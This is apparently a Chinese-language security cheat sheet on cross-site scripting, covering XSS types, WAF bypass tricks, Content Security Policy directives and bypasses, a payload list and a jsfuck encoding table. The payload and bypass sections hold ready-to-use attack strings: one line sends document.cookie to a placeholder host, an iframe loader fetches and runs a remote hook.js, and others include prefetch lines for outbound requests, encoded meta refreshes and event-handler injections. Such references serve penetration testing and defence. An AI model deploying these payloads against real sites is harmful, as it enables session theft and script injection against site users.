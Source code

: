 XSS
================================

分类
--------------------------------
反射型XSS
    一次浏览，最常见，最广泛
    e.g ``http://www.baidu.com<script>alert("hack")</script>``
储存型XSS
    危害较大，把相应脚本传到服务器上
DOM XSS
    类似储存型


WAF Bypass技巧
--------------------------------
1. 利用<>标记
2. 利用html属性
    - href
    - lowsrc
    - bgsound
    - background
    - value
    - action
    - dynsrc

3. 利用回车拆分关键字
4. 利用编码绕过
    - jsfuck
    - String.fromCharCode
    - HTML
    - URL

5. 大小写混淆
6. 对标签属性值转码
7. 产生事件
8. css跨站解析


CSP
--------------------------------

CSP是什么？
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Content Security Policy，简称 CSP。顾名思义，这个规范与内容安全有关，主要是用来定义页面可以加载哪些资源，减少 XSS 的发生。


配置
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

CSP策略可以通过 HTTP 头信息或者 meta 元素定义。

CSP 有三类：

- Content-Security-Policy  (Google Chrome)
- X-Content-Security-Policy (Firefox)
- X-WebKit-CSP (WebKit-based browsers, e.g. Safari)

::

    HTTP header :
    "Content-Security-Policy:" 策略
    "Content-Security-Policy-Report-Only:" 策略


HTTP Content-Security-Policy 头可以指定一个或多个资源是安全的，而Content-Security-Policy-Report-Only则是允许服务器检查（非强制）一个策略。多个头的策略定义由优先采用最先定义的。

HTML Meta :
::

    <meta http-equiv="content-security-policy" content="策略">
    <meta http-equiv="content-security-policy-report-only" content="策略">


指令说明
########################################

============    ============
指令            说明     
============    ============
default-src     定义资源默认加载策略
connect-src     定义 Ajax、WebSocket 等加载策略
font-src        定义 Font 加载策略
frame-src       定义 Frame 加载策略
img-src         定义图片加载策略
media-src       定义 <audio>、<video> 等引用资源加载策略
object-src      定义 <applet>、<embed>、<object> 等引用资源加载策略
script-src      定义 JS 加载策略
style-src       定义 CSS 加载策略
sandbox         值为 allow-forms，对资源启用 sandbox
report-uri      值为 /report-uri，提交日志
============    ============

关键字
########################################

+--------------------+----------------------------+------------------------------------------------------------------+
| 属性值             | 示例                       | 说明                                                             |
+====================+============================+==================================================================+
| -                  | img-src -                  | 允许从任意url加载，除了data:blob:filesystem:schemes              |
+--------------------+----------------------------+------------------------------------------------------------------+
| 'none'             | object-src 'none'          | 禁止从任何url加载资源                                            |
+--------------------+----------------------------+------------------------------------------------------------------+
| 'self'             | img-src 'self'             | 只可以加载同源资源                                               |
+--------------------+----------------------------+------------------------------------------------------------------+
| data:              | img-src 'self' data:       | 可以通过data协议加载资源                                         |
+--------------------+----------------------------+------------------------------------------------------------------+
| domain.example.com | ing-src domain.example.com | 只可以从特定的域加载资源                                         |
+--------------------+----------------------------+------------------------------------------------------------------+
| \*.example.com     | img-src \*.example.com     | 可以从任意example.com的子域处加载资源                            |
+--------------------+----------------------------+------------------------------------------------------------------+
| https://cdn.com    | img-src https://cdn.com    | 只能从给定的域用https加载资源                                    |
+--------------------+----------------------------+------------------------------------------------------------------+
| https:             | img-src https:             | 只能从任意域用https加载资源                                      |
+--------------------+----------------------------+------------------------------------------------------------------+
| 'unsafe-inline'    | script-src 'unsafe-inline' | 允许内部资源执行代码例如style attribute,onclick或者是sicript标签 |
+--------------------+----------------------------+------------------------------------------------------------------+
| 'unsafe-eval'      | script-src 'unsafe-eval'   | 允许一些不安全的代码执行方式，例如js的eval()                     |
+--------------------+----------------------------+------------------------------------------------------------------+

- ``none``：你可能期望不匹配任何内容
- ``self``：与当前来源相同，但不包含子域
- ``unsafe-inline``：允许内联Javascript和CSS
- ``unsafe-eval``：允许文本到JS的机制例如eval

配置范例
########################################

允许执行内联 JS 代码，但不允许加载外部资源
::

    Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline';


Bypass
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

预加载
########################################
浏览器为了增强用户体验，让浏览器更有效率，就有一个预加载的功能，大体是利用浏览器空闲时间去加载指定的内容，然后缓存起来。这个技术又细分为DNS-prefetch、subresource、prefetch、preconnect、prerender。

HTML5页面预加载是用link标签的rel属性来指定的。如果csp头有unsafe-inline，则用预加载的方式可以向外界发出请求，例如

::

    <!-- 预加载某个页面 -->
    <link rel='prefetch' href='http://xxxx'><!-- firefox -->
    <link rel='prerender' href='http://xxxx'><!-- chrome -->
    <!-- 预加载某个图片 -->
    <link rel='prefetch' href='http://xxxx/x.jpg'>
    <!-- DNS 预解析 -->
    <link rel="dns-prefetch" href="http://xxxx">
    <!-- 特定文件类型预加载 -->
    <link rel='preload' href='//xxxxx/xx.js'><!-- chrome -->

另外，不是所有的页面都能够被预加载，当资源类型如下时，讲阻止预加载操作：

- URL中包含下载资源
- 页面中包含音频、视频
- POST、PUT和DELET操作的ajax请求
- HTTP认证
- HTTPS页面
- 含恶意软件的页面
- 弹窗页面
- 占用资源很多的页面
- 打开了chrome developer tools开发工具


302跳转
########################################

对于302跳转绕过CSP而言，实际上有以下几点限制：

- 跳板必须在允许的域内。
- 要加载的文件的host部分必须跟允许的域的host部分一致

其他
########################################

- CND Bypass,如果网站信任了某个CDN, 那么可利用相应的CDN bypass
- Angular versions <1.5.9 >=1.5.0，存在漏洞 `Git pr <https://github.com/angular/angular.js/pull/15346>`_
- jQuery sourcemap 
    ::

        document.write(`<script>
        //@        sourceMappingURL=http://xxxx/`+document.cookie+`<\/script>`);``
- a标签的ping属性
- For FireFox ``<META HTTP-EQUIV="refresh" CONTENT="0; url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnSWhhdmVZb3VOb3cnKTs8L3NjcmlwdD4=">``
- ``<link rel="import" />``
- 利用object

Payload
--------------------------------

- 常用
    ``<script>alert(/xss/)</script>``
- 伪协议
    ``<table background="javascript:alert(/xss/)"></table>``
- Chrome XSS auditor bypass with HPP
    ``?param=https://&param=@z.exeye.io/import%20rel=import%3E``
- 事件属性
    ``<img src=x onerror="alert(/xss/)" />``
- 长度限制

:: 

    <script>s+="l"</script>
    \...
    <script>eval(s)</script>

- jquery sourceMappingURL
    ``</textarea><script>var a=1//@ sourceMappingURL=//xss.site</script>``
- 图片名
    ``"><img src=x onerror=alert(document.cookie)>.gif``

- 过期的payload
    - src=javascript:alert基本不可以用
    - css expression特性只在旧版本ie可用
- css
    ``<div style="background-image:url(javascript:alert(/xss/))">
    <STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>``

- iframe

::

    <iframe onload='
        var sc   = document.createElement("scr" + "ipt");
        sc.type  = "text/javascr" + "ipt";
        sc.src   = "http://1.2.3.4/js/hook.js";
        document.body.appendChild(sc);
        '
    />

- meta
    ``<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">``


前端技巧
--------------------------------

jsfuck cheat sheet
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Basic values
########################################
- ``undefined`` > ``[][[]]``
- ``false`` > ``![]``
- ``true`` > ``!![]``
- ``NaN`` > ``+[![]]``
- ``0`` > ``+[]``
- ``1`` > ``+!+[]``
- ``2`` > ``!+[]+!+[]``

Basic strings
########################################
- ``''`` > ``[]+[]``
- ``'undefined'`` > ``[]+[][[]]``
- ``'false'`` > ``[]+![]``
- ``'true'`` > ``[]+!![]``
- ``'NaN'`` > ``[]+(+[![]])``
- ``'0'`` > ``[]+(+[])``
- ``'1'`` > ``[]+(+!+[])``
- ``'2'`` > ``[]+(!+[]+!+[])``
- ``'10'`` > ``[+!+[]]+[+[]]``
- ``'11'`` > ``[+!+[]]+[+!+[]]``
- ``'100'`` > ``[+!+[]]+[+[]]+(+[])``

Higher numbers
########################################

- ``10`` > ``+([+!+[]]+[+[]])``
- ``11`` > ``+([+!+[]]+[+!+[]])``
- ``100`` > ``+([+!+[]]+[+[]]+(+[]))``

String alphabet
########################################
- ``'a'`` > ``([]+![])[+!+[]]``
- ``'d'`` > ``([]+[][[]])[+!+[]+!+[]]``
- ``'e'`` > ``([]+!+[])[+!+[]+!+[]+!+[]]``
- ``'f'`` > ``([]+![])[+[]]``
- ``'i'`` > ``([]+[][[]])[+!+[]+!+[]+!+[]+!+[]+!+[]]``
- ``'l'`` > ``([]+![])[+!+[]+!+[]]``
- ``'n'`` > ``([]+[][[]])[+!+[]]``
- ``'r'`` > ``([]+!+[])[+!+[]]``
- ``'s'`` > ``([]+![])[+!+[]+!+[]+!+[]]``
- ``'t'`` > ``([]+!+[])[+[]]``
- ``'u'`` > ``([]+!+[])[+!+[]+!+[]]``

参考链接
--------------------------------

- `w3c <https://w3c.github.io/webappsec-csp/>`_
- `content-security-policy.com <https://content-security-policy.com/>`_
